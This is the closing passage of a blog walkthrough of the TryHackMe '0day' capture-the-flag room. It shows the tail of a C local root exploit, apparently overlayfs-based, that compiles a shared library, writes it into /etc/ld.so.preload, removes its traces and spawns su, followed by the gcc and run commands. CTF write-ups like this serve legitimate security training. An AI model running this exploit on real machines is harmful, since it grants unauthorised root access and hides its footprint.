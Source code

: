 ```c

    fprintf(stderr,"/etc/ld.so.preload created\n");
    fprintf(stderr,"creating shared library\n");
    lib = open("/tmp/ofs-lib.c",O_CREAT|O_WRONLY,0777);
    write(lib,LIB,strlen(LIB));
    close(lib);
    lib = system("gcc -fPIC -shared -o /tmp/ofs-lib.so /tmp/ofs-lib.c -ldl -w");
    if(lib != 0) {
        fprintf(stderr,"couldn't create dynamic library\n");
        exit(-1);
    }
    write(fd,"/tmp/ofs-lib.so\n",16);
    close(fd);
    system("rm -rf /tmp/ns_sploit /tmp/ofs-lib.c");
    execl("/bin/su","su",NULL);
}
```

Let's go ahead and save this and upload it to the box.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691130670050/fbae3739-464d-4bfa-9393-aa4f873482b4.png align="center")

Now let's prepare it and get that tasty root flag.

```bash
gcc exploit.c -o exploit
./exploit
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691130689345/a164e9e4-beef-4d92-a2b9-1a8e9db829b1.jpeg align="center")

I hope you enjoyed this walkthrough of the [0day](https://tryhackme.com/room/0day) CTF found on [TryHackMe](https://tryhackme.com). Happy Hacking!